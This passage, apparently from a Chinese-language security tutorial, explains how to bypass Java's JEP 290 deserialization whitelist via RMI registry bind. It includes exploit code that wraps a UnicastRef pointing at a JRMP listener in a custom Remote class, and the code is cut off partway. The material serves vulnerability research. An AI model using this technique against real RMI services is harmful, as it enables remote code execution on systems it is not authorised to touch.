 


client绑定一个恶意`UnicastRef`类,里面包含了我们要连接的JRMP服务地址,利用`RemoteObjectInvocationHandler`进行一个封装,因为bind绑定需要实现remote接口,这里用动态代理将我们需要反序列化的`UnicastRef`类加入代理类中,这样在反序列化的时候就会反序列化我们的`UnicastRef`对象,而这个对象是在白名单内的,可以成功被反序列化(`RemoteObjectInvocationHandler`类也是实现Remote接口的,可以被反序列化,这里其实并没有动态代理什么事情,只是为了通过代理实现Remote接口,并且让`UnicastRef`成为一个成员,这样可以被反序列化。因此,我们可以自己创建一个实现Remote接口的类,然后为其一个字段赋值成恶意类,虽然服务端没有这Remote实现类,但是反序列化恢复一个类的时候会先去处理好他的序列化变量，再去进行组装恢复成类。我们触发payload的过程是恢复他的序列化变量的时候，而之后找得到找不到这个类就不重要了)

不用动态代理:

```java
package jep290;

import ysoserial.payloads.ObjectPayload;
import ysoserial.secmgr.ExecCheckingSecurityManager;

import java.io.Serializable;
import java.rmi.Remote;
import java.rmi.registry.Registry;
import java.util.concurrent.Callable;

//加个Remote接口的类，要支持序列化
public class BindExploit implements Remote, Serializable {
    //弄个地方放payload
    private final Object memberValues;

    BindExploit(Object payload) {
        memberValues = payload;
    }
}
```

client:

```java
package jep290;

import org.apache.commons.collections.map.LazyMap;
import sun.rmi.server.UnicastRef;
import sun.rmi.transport.LiveRef;
import sun.rmi.transport.tcp.TCPEndpoint;

import java.lang.annotation.Retention;
import java.lang.reflect.AnnotatedArrayType;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.rmi.Remote;
import java.rmi.registry.LocateRegistry;
import java.rmi.registry.Registry;
import java.rmi.server.ObjID;
import java.rmi.server.RemoteObjectInvocationHandler;
import java.util.HashMap;
import java.util.Map;
import java.util.Random;
//Bypass 8u121~8u230
public class JRMPClient {

        public static void main(String[] args) throws Exception {
            Registry registry = LocateRegistry.getRegistry(1099);
            ObjID id = new ObjID(new Random().nextInt());
            TCPEndpoint te = new TCPEndpoint("localhost", 1199);
            UnicastRef ref = new UnicastRef(new LiveRef(id, te, false));
           // RemoteObjectInvocationHandler handler = new RemoteObjectInvocationHandler(ref);

            BindExploit handler = new BindExploit(ref);
```